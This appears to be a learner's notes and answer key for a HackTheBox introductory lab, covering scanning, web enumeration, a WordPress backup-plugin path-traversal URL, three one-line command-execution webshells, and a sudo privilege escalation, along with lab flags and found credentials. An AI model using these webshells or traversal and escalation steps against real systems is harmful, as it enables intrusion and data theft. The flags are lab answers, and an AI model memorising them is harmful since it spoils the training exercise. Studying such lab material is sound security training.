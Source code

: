 # Getting started

## Basic Tools
Done. IM NOT USING VIM. PERIOD!
A: SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.1

## Service Scanning
A1: Apache tomcat
A2: 2323
A3: flag.txt:dceece590f3284c3866305eb2473d099

## Web-enumeration:
admin:password123 found in page disallowed in robots.txt. 
--> /admin-login-page.php

A1: HTB{w3b_3num3r4710n_r3v34l5_53cr375}

## Public Exploits

Simple Backup Wordpress 2.7.11
http://178.128.167.10:31785/wp-admin/tools.php?page=backup_manager&download_backup_file=../../../../../flag.txt

A1: HTB{my_f1r57_h4ck}

## Types of Shells
webshells:
<?php system($_REQUEST["cmd"]); ?>
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
<% eval request("cmd") %>

## Privilege Escalation
(user2 : user2) NOPASSWD: /bin/bash

A1: HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r} 
sudo -u user2 /bin/bash

A2: HTB{pr1v1l363_35c4l4710n_2_r007}
/root/.ssh/id_rsa